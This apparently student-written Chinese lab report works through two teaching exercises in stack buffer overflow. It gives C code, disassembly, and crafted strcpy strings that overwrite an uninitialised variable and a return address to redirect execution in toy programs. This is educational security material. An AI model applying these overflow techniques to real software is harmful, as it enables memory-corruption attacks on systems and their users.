






## 缓冲区溢出漏洞复现

### 实验环境

* Windows 11
* Vistual Studio

### 实验过程

#### 实验一

新建一个空项目，将老师提供的不完整代码拷贝过去

```c++
#pragma warning(disable:4996) 

#include <stdio.h>
#include <string.h>

int func2(int a)
{
	int y;
	printf("%d", y);
	return 0;
}

int func1(int b)
{
	char x[10];
	strcpy(x, ""); // 只能修改这一行代码中的字符串，使程序运行后输出“20221118”
	return 0;
}

int main(int argc, char** argv)
{
	func1(1);
	func2(0);
}
```

观察`fun2`可以发现，局部变量`y`并没有赋初值，所以在输出的时候，`y`是等于内存中的一个值。那么主函数中，我们分别调用了func1和func2两个函数。而这 两次函数调用，栈帧的在内存中的位置是重叠的。因此，func1函数给局部变量赋值，会影响func2 未赋初始值的局部变量。

 我们转到反汇编中再仔细看看

```assembly
int func2(int a)
{
00BE1660  push        ebp  
00BE1661  mov         ebp,esp  
00BE1663  sub         esp,44h  
00BE1666  push        ebx  
00BE1667  push        esi  
00BE1668  push        edi  
	int y;
	printf("%d", y);
00BE1669  mov         eax,dword ptr [ebp-4]  
00BE166C  push        eax  
00BE166D  push        0BE5B30h  
00BE1672  call        00BE10AA  
00BE1677  add         esp,8  
	return 0;
00BE167A  xor         eax,eax  
} 
```

```assembly
int func1(int b)
{
00BE1630  push        ebp  
00BE1631  mov         ebp,esp  
00BE1633  sub         esp,4Ch  
00BE1636  push        ebx  
00BE1637  push        esi  
00BE1638  push        edi  
	char x[10];
	strcpy(x, ""); // 只能修改这一行代码中的字符串，使程序运行后输出“20221118”
00BE1639  push        0BE5B33h  
00BE163E  lea         eax,[ebp-0Ch]  
00BE1641  push        eax  
00BE1642  call        00BE1190  
00BE1647  add         esp,8  
	return 0;
00BE164A  xor         eax,eax  
}
```

我们可以看到`x`的地址是`ebp-0Ch`，`y`的地址`ebp-4`。所以说`x`的值是可以覆盖到`y`的值，`0Ch`转为十进制为`12`，所以这两个地址相差`8`。`20221118`转为十六进制为`1348CBE`，那么修改后的代为如下

```C
strcpy(x, "\x01\x02\x03\x04\x05\x06\x07\x08\xBE\x8C\x34\x01");
```



#### 实验二

新建一个空项目，将老师提供的不完整代码拷贝过去

```c
#pragma warning(disable:4996) 

#include <stdio.h>
#include <string.h>

int x() 
{
	printf("hi!");
	return 0;
}

int func2(char * a)
{
	char x[10];
	strcpy(x, a);
	return 0;
}

int func1()
{
	func2(""); // 只能修改21行的字符串，实现执行x函数，节目输出"hi!"
	return 0;
}

int main(int argc, char** argv)
{
	func1();
}
```

那其实函数`x`的效果就是打印 hi！ ,且只有该函数具有打印输出功能。题目的意思就是想让我们在21行能调用x函数。

这里就要通过一张图来说明函数调用的关系



那我们可以知道，在`EBP`后面所跟的就是下一个函数的地址。那其实我们只要将字符串`x`的影响范围扩大到`call`指令的下一条指令的地址。这样就能调用打印函数了。那所谓扩大影响范围，也就是适量增加一下字符串的长度。



局部变量从`EBP-10h`开始，图中黄色框中的为`EBP`，红色框的为下一个指令的地址，那么我们同样也可以验证一下



那我们再查看一下函数`x`的地址



其地址为`004119C0`，那我们只需要将`31184100`，改为`x`的地址即可

构造如下字符串

`this is a testtttttt\xC0\x19\x41`

运行即可输出`hi!`



